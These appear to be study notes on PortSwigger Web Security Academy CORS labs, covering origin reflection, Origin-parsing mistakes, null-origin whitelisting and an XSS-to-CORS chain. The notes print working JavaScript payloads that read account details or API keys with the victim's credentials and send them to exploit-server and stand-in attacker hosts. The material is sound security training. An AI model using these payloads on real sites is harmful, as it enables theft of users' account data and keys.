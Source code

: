 ### Lab: CORS vulnerability with basic origin reflection
Some server may reflect origin in the response. i.e. if the req contains:
```
Origin: http://any.com
```
The response will contain the same origin as allowed if the server is configured to reflect origin:
```
Access-Control-Allow-Origin: http://any.com
```
If you can get user to click on the link that leads to your own website, and your own website contains the following script:
```
<script>
// both ways work

// var req = new XMLHttpRequest();
// req.onload = reqListener;
// req.open('get','https://0a9e001a04a2ac888bbfc28d00bf0063.web-security-academy.net/accountDetails',true);
// req.withCredentials = true;
// req.send();
// 
// function reqListener() {
//     console.log("in resp")
// //	location='//malicious-website.com/log?key='+this.responseText;
//     console.log(this.responseText)
// };

async function req() {
    const res = await fetch("https://vulnerable-website/accountDetails", {
        credentials: 'include',
    })
    const json = await res.text()

    window.location = 'https://your-server/exploit?key='+json
}
req()
</script>
```
Then you can make a request to that another website on behalf of the user


### Errors parsing Origin headers
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```

### Whitelisted null origin value
### Lab: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab8005504188db084705016001f0098.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
       location='https://exploit-0a99002204538de184ea4f6d0136005b.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
</script>"></iframe>
```

### Lab: CORS vulnerability with trusted insecure protocols
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol
To solve the lab retrieve the administrator's API key (`GET /accountDetails` endpoint replies back the API key)

So we need a way of stealing admin's API key.
- The response to /accountDetails contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net 
(Don't forget `http` or `https`. If you specify: `subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net` you're not gonna get `Access-Control-Allow-Origin` header in response)
- Since the origin is reflected in the Access-Control-Allow-Origin header, it confirms that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

After looking through the website's html, a subdomain was found (in the check stock req):
```bash
http://stock.lab-id.web-security-academy.net/?productId=1&storeId=1
```
After playing around with the endpoint we see that the `productID` is vulnerable to XSS.
e.g. if we send:
```bash
GET /?productId=4<script>alert(33)</script>&storeId=1 HTTP/2
Host: stock.0a5a00e503089526801a213200ac0073.web-security-academy.net
```
Here's the response that we get back:
```bash
HTTP/2 400 Bad Request
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 61

<h4>ERROR</h4>Invalid product ID: 4<script>alert(33)</script>
```
In the browser the response from above creates a `<script>` tab and executes js code.

So we try to make the victim make a request to `/accountDetails`, but we do it via subdomain, because we don't want CORS to stand on our way:
```bash
<script>
    document.location="http://stock.0a5a00e503089526801a213200ac0073.web-security-academy.net/?productId=4<script>const req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5a00e503089526801a213200ac0073.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a9000fb03cd95ce8034206201520055.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

